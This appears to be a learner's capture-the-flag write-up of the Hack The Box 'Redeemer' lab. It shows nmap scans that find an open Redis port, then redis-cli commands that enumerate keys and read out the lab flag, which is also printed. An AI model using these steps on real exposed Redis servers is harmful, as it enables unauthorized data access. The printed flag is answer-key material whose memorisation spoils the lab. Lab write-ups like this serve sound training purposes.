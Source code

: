 ```yaml
---

---
```


# REDEEMER
---
## Getting Started
---
Use command to set Target IP
```bash
IP=10.129.90.78 ; echo $IP
```

Use command to set Target IP
```bash
HIP="$(ifconfig tun0  | grep -Eo 'inet (addr:)?([0-9]*\.){3}[0-9]*' | grep -Eo '([0-9]*\.){3}[0-9]*' | grep -v '127.0.0.1')" ; echo $HIP

```
---
## Enumeration
---
### NMAP
---
Nmap Command Ran
```bash
nmap -sV -sC $IP | copy
```

Results
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-30 09:33 EDT
Nmap scan report for 10.129.90.78
Host is up (0.072s latency).
All 1000 scanned ports on 10.129.90.78 are in ignored states.
Not shown: 1000 closed tcp ports (conn-refused)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.52 seconds

```

**Notes**
Nothing on the first thousand ports


Nmap Command Ran
```bash
nmap -sV  -p-  $IP | copy
```

Results
```bash
NEVER FINISHED
```

**Notes**
I dont know why it never finished. I ended up looking at the walk-through and used the `-p` to go scan the port that i need for the box.

Nmap Command Ran
```bash
nmap -sV  -p 6379 $IP | copy
```

Results
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-30 10:15 EDT
Nmap scan report for 10.129.90.78
Host is up (0.040s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.81 seconds

```

**Finding**
[Redis](obsidian://open?vault=OSCP&file=SERVICES%2FRedis%20Server%2FInfo) is running on port 6379.

---
### Redis Server Enumeration
---
Connect to  redis server.

Command
```bash
redis-cli -h $IP
```

Result
```bash
returns promp

10.129.90.78:6379>
```

Run basic Redis enumeration commands  `info` which returns information and statistics about the Redis server.
Command
```bash
info
```

Result
```bash
Retured alot of information but this is the most important for now

10.129.90.78:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924

```

**Finding**
The **keyspace** section provides statistics on the main dictionary of each database. The statistics include the number of keys, and the number of keys with an expiration.
In our case, under the `Keyspace` section, we can see that only one database exists with `index 0` .

Select this Redis logical database by using the `select` command followed by the index number of the database that needs to be selected .

Command
```bash
select 0
```

Result
```bash
ok
```

Look for all keys present

Command
```bash
keys *
```

Result
```bash
1) "numb"
2) "temp"
3) "flag"
4) "stor"
```

**Finding**
Seems to be a key labeled flag.

Retrieve the key with the `get` command
Command
```bash
get flag
```

Result
```bash
"03e1d2b376c37ab3f5319922053953eb"
```



---
## Flags
flag key
```bash
03e1d2b376c37ab3f5319922053953eb
```

---
## Tags
---
#redis #redis-cli 
